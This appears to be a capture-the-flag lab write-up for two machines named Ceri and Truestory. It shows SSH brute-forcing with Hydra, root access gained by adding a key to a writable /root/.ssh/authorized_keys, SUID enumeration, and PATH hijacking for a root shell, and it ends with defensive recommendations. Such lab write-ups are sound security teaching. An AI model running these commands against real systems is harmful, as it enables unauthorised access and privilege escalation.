










# SSH Ninja


The purpose of this lab is to reveal how SSH misconfigurations can be abused to gain access to a remote machine, elevate privileges, and perform pivoting.


---

# 🖥️ Machine 1: Ceri

##  Reconnaissance

We begin by scanning the target using **Nmap**, which reveals that SSH is running along with other services.



---

## Initial Access

To gain access, a brute-force attack was performed using **Hydra**:

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://<TARGET_IP>
```


The attack successfully revealed weak credentials:

```
username: user  
password: user
```

Using these credentials, we log in via SSH:

```bash
ssh user@<TARGET_IP>
```
---

## 🚩 User Flag

The first flag is located at:

```bash
/home/local.txt
```



---

## ⬆️ Privilege Escalation

During enumeration, a critical misconfiguration was identified:

* The `/root` directory was accessible by a normal user.
* The `/root/.ssh` directory was owned by the `user` account.



You may notice that we can simply print the content of proof.txt (read permission). Probably this is just a mistake made by the challenge designer!

### Exploit

Since we had write access, we added our public SSH key to:

```bash
/root/.ssh/authorized_keys
```



This allowed direct SSH access as root:

```bash
ssh root@<TARGET_IP>
```

`

---

# 🖥️ Machine 2: Truestory

## Initial Access

Access to this machine was obtained directly via SSH:

```bash
ssh user@<TARGET_IP>
```

This worked because the public key from the previous machine (**Ceri**) was already present in:

```bash
/home/user/.ssh/authorized_keys
```

---

## 🚩 User Flag

The user flag is located at /home/local.txt as usual 

---

## ⬆️ Privilege Escalation

Since direct access to `/root` was not possible, further enumeration was required.

---

### Finding SUID Binaries

SUID files run with the privileges of their owner (often root). Misconfigured ones can be exploited.

```bash
find / -perm -4000 -type f 2>/dev/null
```



---

### Vulnerable Binary Identified

An unusual SUID binary was discovered `whattimetoday`



---

## Analysis

Running the binary simply prints the current date. Using `ltrace`:

```bash
ltrace ./usr/sbin/whattimetoday
```

It was observed that the binary calls the `date` command.

`

---

## Exploitation (PATH Hijacking)

This behavior allows for a **PATH hijacking attack**:

### Steps:

1. Create a malicious `date` script:

```bash
echo "/bin/bash" > ~/date
chmod +x ~/date
```

2. Modify the PATH:

```bash
export PATH="$HOME:$PATH"
```

3. Run the vulnerable binary:

```bash
./usr/sbin/whattimetoday
```

This executes the malicious script with root privileges, resulting in a root shell.

---

##  Root Flag

Once root access is obtained:

```bash
cat /root/proof.txt
```

---

# Key Takeaways

* Weak credentials can lead to immediate compromise.
* Misconfigured file permissions (especially in `/root/.ssh`) are critical vulnerabilities.
* SUID binaries should always be audited.
* PATH hijacking is a powerful privilege escalation technique when binaries call system commands insecurely.

---

# Recommendations

* Enforce strong password policies.
* Restrict access to sensitive directories like `/root`.
* Properly set ownership and permissions for `.ssh` directories.
* Avoid using relative paths in privileged binaries.
* Regularly audit SUID binaries.

